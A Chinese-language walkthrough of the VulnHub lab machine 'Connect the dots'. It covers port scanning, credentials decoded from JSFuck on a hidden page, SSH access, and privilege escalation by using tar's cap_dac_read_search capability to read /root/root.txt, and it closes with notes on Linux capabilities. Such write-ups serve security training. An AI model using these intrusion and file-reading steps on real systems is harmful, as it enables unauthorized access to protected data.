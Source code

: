 ```yaml
---
layout: post
title: "Connect the dots walkthrough"
date: 2021-07-02
author: 2hanx
toc: true
categories: [Vulnhub]
tags: []
---
```


### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机           | IP              |
| ---------------- | --------------- |
| 本机（Win10）    | `192.168.1.115` |
| Kali             | `192.168.1.116` |
| Connect the dots | `192.168.1.117` |

### 扫描端口和版本信息

`nmap -A -p- 192.168.1.117`

```shell
┌──(root💀kali)-[~]
└─# nmap -A -p- 192.168.1.117
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-02 07:48 UTC
Nmap scan report for 192.168.1.117
Host is up (0.0042s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      vsftpd 2.0.8 or later
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Landing Page
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      40719/udp6  mountd
|   100005  1,2,3      41963/tcp6  mountd
|   100005  1,2,3      49183/udp   mountd
|   100005  1,2,3      53937/tcp   mountd
|   100021  1,3,4      33367/tcp6  nlockmgr
|   100021  1,3,4      37147/udp6  nlockmgr
|   100021  1,3,4      44843/tcp   nlockmgr
|   100021  1,3,4      57886/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
7822/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey:
|   2048 38:4f:e8:76:b4:b7:04:65:09:76:dd:23:4e:b5:69:ed (RSA)
|   256 ac:d2:a6:0f:4b:41:77:df:06:f0:11:d5:92:39:9f:eb (ECDSA)
|_  256 93:f7:78:6f:cc:e8:d4:8d:75:4b:c2:bc:13:4b:f0:dd (ED25519)
34777/tcp open  mountd   1-3 (RPC #100005)
44843/tcp open  nlockmgr 1-4 (RPC #100021)
53937/tcp open  mountd   1-3 (RPC #100005)
58755/tcp open  mountd   1-3 (RPC #100005)
MAC Address: A8:66:7F:1B:19:D8 (Apple)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

从结果可知靶机开启了ftp，rpc，http服务器以及将默认22端口的ssh服务绑定在**7822**端口上。

在信息收集阶段，除了获取服务器端的信息，还包括网站的指纹识别。其中经过*dirb*目录枚举后，发现根目录下存在*backups*文件，下载后没有发现什么有用信息，并且在*/manual/*目录下是apache 2.4的开发文档。最后在*/index.htm*文件中发现泄露的注释信息，从该信息中知道了目录枚举没有爆破出来的路径：`http://192.168.1.117/mysite/register.html`。并且发现在该页面下的bootstrap框架代码文件中存在jsfuck代码。

经过[jsfuck](http://www.jsfuck.com/)网站解码，得到结果：`You're smart enough to understand me. Here's your secret, TryToGuessThisNorris@2k19`，其中包含一串secret值。之后根据根目录下的提示猜测用户名为：`norris`

### Getshell

使用用户名和密码`norris:TryToGuessThisNorris@2k19`登录到ssh服务器。

```shell
┌──(root💀kali)-[~]
└─# ssh norris@192.168.1.117 -p 7822
The authenticity of host '[192.168.1.117]:7822 ([192.168.1.117]:7822)' can't be established.
ECDSA key fingerprint is SHA256:JK6+YY5U5vuE7DXk+tJBZFRPsa+G7KOZ366/v9ipWSE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.1.117]:7822' (ECDSA) to the list of known hosts.
norris@192.168.1.117's password:
...
norris@sirrom:~$ id
uid=1001(norris) gid=1001(norris) groups=1001(norris),27(sudo)
```

并在该目录下得到第一个flag。

```shell
norris@sirrom:~$ cat user.txt
2c2836a138c0e7f7529aa0764a6414d0
```

通过常用方法查找具备SUID权限的脚本文件时发现没什么需要注意的地方，不过在通过上传并执行*LinEnum.sh*脚本文件后，查看更详细的信息时发现*/usr/bin/tar*脚本程序存在**读**权能

```shell
...
[+] Files with POSIX capabilities set:
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/tar = cap_dac_read_search+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/ping = cap_net_raw+ep
...
```

> Capabilities的主要思想在于分割root用户的特权，即将root的特权分割成不同的能力，每种能力代表一定的特权操作

### 提权

```shell
norris@sirrom:~$ /usr/bin/tar -cvf rootfile.tar /root/root.txt
/usr/bin/tar: Removing leading `/' from member names
/root/root.txt
norris@sirrom:~$ ls
ftp  LinEnum.sh  rootfile.tar  user.txt
norris@sirrom:~$ tar -xvf rootfile.tar
root/root.txt
norris@sirrom:~$ ls
ftp  LinEnum.sh  root  rootfile.tar  user.txt
norris@sirrom:~$ cd root
norris@sirrom:~/root$ ls
root.txt
norris@sirrom:~/root$ cat root.txt
8fc9376d961670ca10be270d52eda423
```

### 总结

Linux内核引入能力(capability)概念的目的就是使得普通用户也可以做只有超级用户可以完成的工作。

其中只有进程和可执行文件才具有能力：

1. 每个**进程**拥有三组能力集，分别称为：

   - cap_effective（pE）：表示进程当前可用的能力集
   - cap_inheritable（pI）：表示进程可以传递给其子进程的能力集
   - cap_permitted(pP)：表示进程所拥有的最大能力集

   系统根据进程的cap_effective能力集进行访问控制，cap_effective为cap_permitted的子集，进程可以通过取消cap_effective中的某些能力来放弃进程的一些特权。

2. **可执行文件**也拥有三组能力集，对应于进程的三组能力集，分别称为：

   - cap_effective（fE）：表示文件开始运行时可以使用的能力
   - cap_allowed（fI）：表示程序运行时可从原进程的cap_inheritable中集成的能力集
   - cap_forced（fP）：表示运行文件时必须拥有才能完成其服务的能力集

